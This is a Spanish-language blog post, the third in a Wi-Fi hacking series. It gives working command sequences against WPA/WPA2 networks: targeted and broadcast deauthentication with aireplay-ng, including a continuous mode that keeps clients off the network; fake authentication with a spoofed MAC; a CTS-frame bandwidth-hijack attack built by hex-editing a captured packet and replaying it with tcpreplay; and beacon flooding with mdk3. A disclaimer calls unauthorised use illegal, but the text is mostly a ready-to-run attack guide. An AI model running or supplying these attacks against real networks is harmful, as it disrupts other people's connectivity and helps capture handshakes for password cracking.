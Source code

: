 ```yaml
---
layout: single
title: Wifi Hacking 3, Ataques
excerpt: "En este articulo veremos unos cuantos ataques para las redes WPA y WPA 2, los cuales podremos lanzar con distintas finalidades."
date: 2022-07-05
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/Wifi-Hacking/wifi.webp
categories:
  - Wifi-Hacking
tags:  
  - Wifi-Hacking
---
```


Vale, una vez visto lo anterior ya nos podemos poner manos a la obra con una parte bastante atractiva de esto, los ataques, aquí veremos ataques de varios tipos y como los podemos utilizar con distintos fines, pero antes de nada `YO NO ME HAGO RESPONSABLE DEL MAL USO QUE SE LE PUEDAN DAR A ESTOS CONOCIMIENTOS`, ya que como todo esto se puede usar para el bien, pero también se puede utilizar para el mal y creo que no hace falta aclarar que `Cualquier ataque de estos en una red en la que no tengamos permiso de efectuarlos es completamente ILEGAL`. Una vez aclarado esto ya nos podemos poner manos a la obra. uwu

![](/assets/images/Wifi-Hacking/wifi-hacking.jpg)

`(antes de nada hay que aclarar que todos estos ataques, capturar paquetes y todo eso... se puede hacer sin estar conectados a la red que queremos atacar, es decir que no necesitamos saber la contraseña, solo necesitaremos saberla para snifar la red, ya que la información viaja encriptada y sin la contraseña no podremos verla en texto claro)`


## ATAQUE DE DEAUTENTICACIÓN DIRIGIDO

Con este ataque básicamente `vamos a desconectar a un usuario` de la red que queramos. Si vemos que `los frames están aumentando, significa que el usuario está activo` y por lo tanto, se va a `reconectar` y ahí podremos capturar el `handshake`. Claro, también podemos querer que el usuario `no se pueda conectar` entonces podemos desconectarlo continuamente.

```
#Deautenticar / Desconectar a un usuario una vez
> aireplay -0 {paquetes que quieres emitirle (por ejemplo 10)} -e {nombre de la red} -c {MAC del cliente} {tarjeta de red en modo monitor}

#Otra forma de hacerlo
> aireplay --deauth 2000 -a {bssid de la red} -c {MAC víctima} {tarjeta de red} (esta es 	otra opción de hacerlo)


# IMPORTANTE: si queremos que ese cliente no se pueda conectar, en el número de paquetes ponemos 0 y se estarán mandando paquetes de deautenticación uno tras otro hasta que tú hagas Control+C o cierres la consola.
```

Ejemplo:

![](/assets/images/Wifi-Hacking/Deauth-dirigido.PNG)


## ATAQUE DE DEAUTENTICACIÓN GLOBAL

Esto es lo mismo que el anterior, pero para desconectar a todos los clientes, de esta forma `es más probable conseguir uno o varios handshakes`. O también se puede utilizar para otros fines.

Para esto reemplazaremos la MAC del cliente víctima por la `broadcast MAC: FF:FF:FF:FF:FF:FF` y asi seleccionaremos `todos los clientes` para desconectarlos. Aunque aireplay-ng tiene una facilidad con la cual si no ponemos ninguna MAC, por defecto seleccionará todos los usuarios.

```
#Forma 1
> aireplay-ng -0 10 -e {nombre de la red} -c FF:FF:FF:FF:FF:FF {nombre de la tarjeta de red}

#Forma 2 (la que facilita aireplay)
> aireplay-ng -0 10 -e {nombre de la red} {tarjeta de red}

# IMPORTANTE: aquí también podemos hacer que no se puedan reconectar
```


## ATAQUE DE FALSA AUTENTICACIÓN

Teoría: `no sirve para capturar handshakes`, ya que los `falsos clientes` no tienen la 	contraseña, pero `sirve para otro tipo de ataques que se verán más adelante`. Lo que	haces es engañar al router para que crea que se ha conectado un nuevo cliente.

Primero con `macchanger -l` buscamos una mac de un dispositivo que pueda estar en esa red, por ejemplo un telefono huawei.

```
> aireplay-ng -1 0 -e {nombre de la red} -a {BSSID de la red} -h {Mac del dispositivo que hemos buscado}:{3 pares de caracteres para terminar la MAC, inventados}	{nombre de la tarjeta de red}
```
Y ahora si observamos la red veremos que se ha conectado un usuario que mientras no le hagamos ningún ataque no cambiará el número de frames.


## CTF FRAME ATTACK: secuestro del ancho de banda

Teoría: si dos clientes mandan paquetes parecidos al mismo tiempo pueden colisionar, así que en una red cada cliente tiene que pedir turno para hablar (RTS: request to send), por lo que si tú pides turno, pero para muchísimos paquetes seguidos puedes hacer que la mayoría de ancho de banda o todo este para ti, ya que tú tienes el turno de enviarle paquetes al router durante un tiempo que especifiques al efectuar el ataque. La duración se manda en microsegundos, desde el 0 hasta el 32767. Entonces, la idea como atacante es poner un valor bastante alto (30000). 	Aunque hay que poner primer número el más bajo y último el más alto (en hexadecimal). La idea es que cuando emitamos el ataque la red va a congestionar y la mayoría de dispositivos se van a desconectar.

Primero exportamos todas las evidencias, pero no desconectamos a nadie:
```
> airodump-ng -c 1 -w Captura --bssid {BSSID de la red} {tarjeta de red}
```

Ahora habriremos la captura con wireshark:
```
> wireshark Captura-01.cap (o la captura que sea)
```

Vale, ahora toca una parte que no se muy bien como explicar, asi que me apoyare en imagenes.

En wireshark: aplica filtro; wlan.fc.type_subtype==28 

![](/assets/images/Wifi-Hacking/ctf-attack-1.PNG)

Luego clica en un paquete que quieras o te llame la atención y "Export Specified Packets" 

![](/assets/images/Wifi-Hacking/ctf-attack-2.PNG)

Y guárdalo en el	formato "Wreshark/tcdump/... - cap", `pero tienes que seleccionar la opción de "solo paquetes seleccionados"`.

![](/assets/images/Wifi-Hacking/ctf-attack-3.PNG)

Entonces una vez tenemos el .pcap lo vamos a habrar con `ghex`:

```
# En caso de que no lo tengamos instalado:
> apt install ghex -y 

# para abrir el archivo:
> ghex {nombre del archivode wireshark con el.pcap} > /dev/null 2>&1 & 
```
En el archivo saldrán 3 líneas en hexadecimal, pero solo nos interesa la última. Los últimos 4	pares son el `FCS`, los siguientes 6 pares son la `MAC` del objetivo. Los siguientes 2	pares son el `tiempo`.

![](/assets/images/Wifi-Hacking/ctf-attack-4.PNG)

Ahora pasaremos el tiempo a hexadecimal, en este caso 30000 ms --> 75 30 

PERO HAY QUE TENER CUIDADO porque a ese número le tenemos que dar la vuelta --> 30 75

Y lo pondremos donde el tiempo:

![](/assets/images/Wifi-Hacking/ctf-attack-5.PNG)

Una vez hecho esto ya podemos guardar y cerrar el archivo, pero antes de continuar, vamos a comprobar que no de errores:

```
> wireshark {archivo.pcap} > /dev/null 2>&1 &
```

LAZAR EL ATAQUE:

Una vez ya hemos hecho todo lo anterior, ya podremos desplegar el ataque:

```
tcpreplay --intf1={tarjeta de red} --topspeed --loop=2000 {archivo.pcap} 2>/dev/null
```

Y asi capturaremos el ancho de banda, es decir lo tendremos para nosotros, durante 30 segundos.
Claro, aqui desconectara a los otros usuarios, asi que es si lo que queremos es capturar los handshakes, tendremos que estar capturando paquetes.


## BEACON FLOOD ATTACK

Teoría: consiste en inundar un canal de paquetes beacon que son unos paquetes	emitidos por el punto de acceso para que otros canales puedan identificarlo y sean 	capaces de conectarse	al punto de acceso. Estos paquetes `llevan información relevante del AP` como en que canal esta, el BSSID...

La idea es `emitir un montó de paquetes beacon`, pero `con información falsa`, asi `dañamos el espectro de onda de las redes de un canal`. Al anunciar tantas redes en el mismo canal, el canal se peta y los dispositivos se desconectan.

Hay dos formas de hacerlo, poniendo a las redes los nombres que queramos o que sean aleatorios.

Para la primera opción necesitaremos hacer o tener un diccionario con nombres de redes o con los nombres/palabras que queramos:

```
> mdk3 {tarjeta de red} b -f redes.txt -a -s 1000 -c {canal a atacar}
```

Y de la segunda forma, es decir que el nombre de las redes sea random:

```
> mdk3 {tarjeta de red} b -c {canal}
```

Mientras estemos haciendo el ataque, si miramos las redes disponibles, veremos un montón de redes con nombres random:

![](/assets/images/Wifi-Hacking/ctf-attack-6.png)
